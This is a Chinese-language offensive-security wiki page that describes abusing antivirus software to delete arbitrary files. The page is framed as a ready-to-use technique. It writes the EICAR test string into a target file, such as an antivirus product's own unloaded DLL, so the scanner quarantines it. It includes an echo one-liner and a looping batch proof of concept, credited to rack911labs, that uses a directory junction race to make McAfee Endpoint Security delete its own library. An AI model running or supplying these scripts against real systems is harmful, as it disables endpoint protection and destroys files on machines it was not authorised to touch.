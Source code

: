 # 利用杀毒软件删除任意文件

## 简介

通常，下载一个未知文件保存到硬盘后，杀毒软件通常会在短时间进行实时扫描，如果确定为可疑或威胁，该文件会被自动隔离，并询问用户是否处理。

考虑到杀毒软件几乎都已高权限运行，这样就为我们对杀毒软件利用产生了条件，我们可以往一个合法文件里写入恶意代码特征，然后利用杀毒软件帮我去删除这个文件，当然前提是这个文件当前没有使用。

## 测试字符串

```text
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

> **来自维基百科:**
>
> **EICAR标准反病毒测试文件**，又称**EICAR测试文件**, 是由[欧洲反计算机病毒协会](https://zh.wikipedia.org/wiki/%E6%AC%A7%E6%B4%B2%E5%8F%8D%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%97%85%E6%AF%92%E5%8D%8F%E4%BC%9A)（EICAR）与[计算机病毒研究组织](https://zh.wikipedia.org/w/index.php?title=%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%97%85%E6%AF%92%E7%A0%94%E7%A9%B6%E7%BB%84%E7%BB%87&action=edit&redlink=1)（CARO）研制的文件, 用以测试[杀毒软件](https://zh.wikipedia.org/wiki/%E6%9D%80%E6%AF%92%E8%BD%AF%E4%BB%B6)的响应程度。不同于使用可能造成实际破环的实体恶意软件，该文件允许人们在没有计算机病毒的情况下测试杀毒软件。
>
> 杀毒软件的开发者将EICAR字符串视为测试病毒，与其他鉴别标识相似。合格的病毒扫描器在发现文件时，会精确地采用相同方式处置，如同发现一个严重的病毒时那样。注意并非所有病毒扫描器是合格的，有些病毒扫描器会在精确识别后保留文件。
>
> EICAR测试字符的用法要比直接测试灵活：包含EICAR测试字符的文件会被[压缩](https://zh.wikipedia.org/wiki/%E6%95%B0%E6%8D%AE%E5%8E%8B%E7%BC%A9)或者[存档](https://zh.wikipedia.org/wiki/%E5%AD%98%E6%A1%A3)，并且杀毒软件会尝试删除压缩文件中的测试字符。

简单的说为了测试杀毒软件的性能,所有厂商都会把这个测试字符串当作病毒处理。

![](../.gitbook/assets/image%20%2868%29.png)

预想一个场景，在杀毒软件运行时考虑到内存占用可能并不会加载所有自身dll，那我们往这个未加载的dll里写入这个测试字符串，这样杀毒软件就会自己干掉自己，等到需要用到这个功能dll的时候，这个功能就会失效。

## 利用流程

1. 往文件写入测试字符串

## 利用代码

```text
echo X5O!P%@AP[4\PZX54(P^^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*  > <FILENAME>
```

## 扩展利用

windows提供了一个目录链接功能，只能将两个目录链接在一起。它不能链接文件，并且目录必须在文件系统本地。目录连接可以由任何用户执行，并且不需要管理员特权，因此非常适合在Windows操作系统下利用防病毒软件进行利用。

此poc来自rack911labs:

```text
:loop
rd /s /q C:\Users\Username\Desktop\exploit
mkdir C:\Users\Username\Desktop\exploit
echo X5O!P%@AP[4\PZX54(P^^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* > C:\Users\Username\Desktop\exploit\EpSecApiLib.dll
rd /s /q C:\Users\Username\Desktop\exploit
mklink /J C:\Users\Username\Desktop\exploit “C:\Program Files (x86)\McAfee\Endpoint Security\Endpoint Security Platform”
goto loop
```

## LINKS

{% embed url="https://zh.wikipedia.org/wiki/EICAR%E6%A0%87%E5%87%86%E5%8F%8D%E7%97%85%E6%AF%92%E6%B5%8B%E8%AF%95%E6%96%87%E4%BB%B6" %}

{% embed url="https://www.rack911labs.com/research/exploiting-almost-every-antivirus-software/" %}

